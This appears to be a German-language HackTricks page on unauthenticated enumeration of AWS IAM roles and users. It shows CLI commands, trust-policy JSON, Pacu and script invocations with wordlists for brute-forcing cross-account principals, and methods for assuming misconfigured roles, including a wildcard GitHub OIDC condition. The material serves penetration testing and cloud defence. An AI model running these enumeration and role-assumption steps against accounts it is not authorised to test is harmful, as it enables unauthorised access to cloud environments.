 # AWS - IAM & STS Unauthenticated Enum

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## Rollen und Benutzernamen in einem Konto aufzählen

### ~~Annahme von Rollen durch Brute-Force~~

{% hint style="danger" %}
**Diese Technik funktioniert nicht** mehr, da Sie immer diesen Fehler erhalten, unabhängig davon, ob die Rolle existiert oder nicht:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Sie können dies **testen, indem Sie** ausführen:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Der Versuch, **eine Rolle ohne die erforderlichen Berechtigungen anzunehmen**, löst eine AWS-Fehlermeldung aus. Wenn nicht autorisiert, könnte AWS beispielsweise zurückgeben:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Diese Nachricht bestätigt die Existenz der Rolle, zeigt jedoch an, dass ihre Annahme-Richtlinie Ihre Annahme nicht zulässt. Im Gegensatz dazu führt der Versuch, **eine nicht vorhandene Rolle anzunehmen, zu einem anderen Fehler**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessanterweise ist diese Methode zur Unterscheidung zwischen vorhandenen und nicht vorhandenen Rollen sogar über verschiedene AWS-Konten hinweg anwendbar. Mit einer gültigen AWS-Konto-ID und einer gezielten Wortliste kann man die Rollen im Konto ohne inhärente Einschränkungen aufzählen.

Sie können dieses [Skript zur Auflistung potenzieller Prinzipale](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) verwenden, um dieses Problem auszunutzen.

### Vertrauensrichtlinien: Brute-Force Cross-Account-Rollen und Benutzer

Das Konfigurieren oder Aktualisieren einer IAM-Rolle Vertrauensrichtlinie beinhaltet die Definition, welche AWS-Ressourcen oder -Dienste berechtigt sind, diese Rolle anzunehmen und temporäre Anmeldeinformationen zu erhalten. Wenn die angegebene Ressource in der Richtlinie **existiert**, wird die Vertrauensrichtlinie **erfolgreich** gespeichert. Wenn die Ressource jedoch **nicht existiert**, wird ein **Fehler generiert**, der darauf hinweist, dass ein ungültiger Prinzipal angegeben wurde.

{% hint style="warning" %}
Beachten Sie, dass Sie in dieser Ressource eine Cross-Account-Rolle oder einen Benutzer angeben könnten:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Dies ist ein Richtlinienbeispiel:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Das ist der **Fehler**, den Sie finden werden, wenn Sie eine **Rolle verwenden, die nicht existiert**. Wenn die Rolle **existiert**, wird die Richtlinie **ohne Fehler gespeichert**. (Der Fehler tritt beim Aktualisieren auf, funktioniert aber auch beim Erstellen)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Du kannst diesen Prozess mit [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) automatisieren

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Unsere Verwendung von [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Die im Beispiel verwendete `admin`-Rolle ist eine **Rolle in Ihrem Konto, die von Pacu zur Erstellung der benötigten Richtlinien für die Enumeration übernommen werden soll**

### Privesc

Falls die Rolle schlecht konfiguriert ist und es jedem erlaubt, sie anzunehmen:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Der Angreifer könnte es einfach annehmen.

## Drittanbieter OIDC-Föderation

Stellen Sie sich vor, Sie können einen **Github Actions-Workflow** lesen, der auf eine **Rolle** in **AWS** zugreift.\
Dieses Vertrauen könnte Zugriff auf eine Rolle mit der folgenden **Vertrauensrichtlinie** gewähren:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Diese Vertrauensrichtlinie könnte korrekt sein, aber das **Fehlen weiterer Bedingungen** sollte Misstrauen hervorrufen.\
Dies liegt daran, dass die vorherige Rolle von **JEDEM von Github Actions** angenommen werden kann! Sie sollten in den Bedingungen auch andere Dinge wie Org-Name, Repo-Name, Umgebung, Branch angeben...

Eine weitere potenzielle Fehlkonfiguration besteht darin, eine **Bedingung hinzuzufügen** wie folgt:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Beachten Sie das **Platzhalterzeichen** (\*) vor dem **Doppelpunkt** (:). Sie können eine Organisation wie **org\_name1** erstellen und die Rolle aus einer Github-Aktion **annehmen**.

## Referenzen

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
